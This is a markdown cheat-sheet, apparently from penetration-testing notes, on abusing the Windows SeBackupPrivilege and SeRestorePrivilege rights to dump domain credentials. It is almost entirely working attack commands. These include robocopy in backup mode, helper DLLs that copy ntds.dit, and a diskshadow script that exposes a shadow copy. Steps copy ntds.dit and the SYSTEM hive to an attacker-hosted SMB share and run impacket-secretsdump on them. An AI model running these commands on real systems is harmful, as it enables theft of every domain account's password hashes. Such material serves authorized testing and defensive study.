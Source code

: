 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["Credential Dumping", "File System", "SeBackupPrivilege", "SeRestorePrivilege", "Windows", "Backup Operators", "Diskshadow"]
---
```


### Abuse #1: Robocopy

```console
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

---

### Abuse #2: Using helper dlls

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```console
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

#### 3. Host a smb server (In Linux)

```console
impacket-smbserver share . -smb2support
```

#### 4. Copy to local Linux

```console
net use \\<LOCAL_IP>\share
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

#### 5. Secrets dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```
